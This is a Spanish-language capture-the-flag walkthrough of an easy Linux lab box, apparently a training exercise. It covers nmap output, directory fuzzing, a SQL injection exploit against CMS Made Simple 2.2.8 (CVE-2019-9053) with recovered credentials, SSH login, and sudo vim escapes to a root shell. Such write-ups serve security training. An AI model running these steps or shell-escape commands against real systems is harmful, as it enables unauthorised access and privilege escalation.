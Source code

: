 #Linux #Easy 
### Scan
```css
nmap -p- --open --min-rate 3000 -sS -n -vvv -Pn 10.10.68.49
```
### 
```css
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.33.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.64 seconds
```

### El puerto 21 tiene certificaciones por defecto para ingresar como anomymous


### haciendo fuzzing conseguimos el directorio "'/simple'" 
### hacemos fuzzing al directorio /simple 
```css
/.php              (Status: 403) [Size: 298]
/.html             (Status: 403) [Size: 299]
/index.php         (Status: 200) [Size: 19913]
/modules           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/modules/]
/uploads           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/uploads/]
/doc               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/doc/]
/admin             (Status: 301) [Size: 319] [--> http://10.10.14.180/simple/admin/]
/assets            (Status: 301) [Size: 320] [--> http://10.10.14.180/simple/assets/]
/lib               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/lib/]
/install.php
```

### conseguimos enumerar la version de aparentemente la pg:

```css
CMS Made Simple version 2.2.8
```

### buscamos un exploit. en www.exploit.db.com conseguimos exploit de Python que explota una vulnerabilidad de inyección de SQL (CVE-2019-9053). La vulnerabilidad permite a un atacante realizar una inyección de SQL en el sistema y extraer información sensible de la base de datos.
#### Ejecutamos el exploit y obtenemos resultados:
```css

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: secret
```

### intentamos acceder via ssh que esta habilitado en el puerto 2222
```css
ssh mitch@10.10.45.134
password: secret 
```

# Enumeración básica sistema
```css
find / -perm -u=s -type f 2>/dev/null
sido -l 
```
# Permisos sudo
```css
con el usuario mitch tenemos permisos para ejecutar /usr/bin/vim 

ejecutamos: sudo vim -c ':!/bin/sh'
```

### otras opciones
```css

	sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

	sudo vim -c ':lua os.execute("reset; exec sh")'
```